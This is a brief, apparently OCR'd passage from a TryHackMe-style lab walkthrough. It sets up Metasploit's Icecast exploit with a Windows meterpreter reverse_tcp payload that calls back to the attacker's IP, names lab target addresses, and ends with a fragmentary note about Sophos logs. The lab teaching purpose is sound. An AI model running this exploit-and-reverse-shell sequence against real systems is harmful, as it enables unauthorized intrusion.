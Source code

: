 ran command `use 5`

Next, let's set the payload using this command set PAYLOAD windows/meterpreter/reverse_tcp. In this way, we can
modify which payloads we want to use with our exploits. Additionally, let's run this command set LHOST YOUR_IP_ON_TRYHACKME.
You might have to check your IP using the command ip addr, it will likely be your tun0 interface.

ran command `set PAYLOAD windows/meterpreter/reverse_tcp`

ran command `set LHOST 10.2.70.52`

Let's go ahead and return to our previous exploit, run the command use icecast to select it again.

ran command `use icecast`

One last step before we can run our exploit. Run the command set RHOSTS 10.10.33.53 to tell Metasploit which target to attack.

ran command `set RHOSTS 10.10.33.53`

Once you're set those variables correctly, run the exploit now via either the command exploit or the command run -j to run this as a job.

ran command `exploit`

ran command `jobs`

Check Sophos logs and I block too many ports.

screenshot below>>>
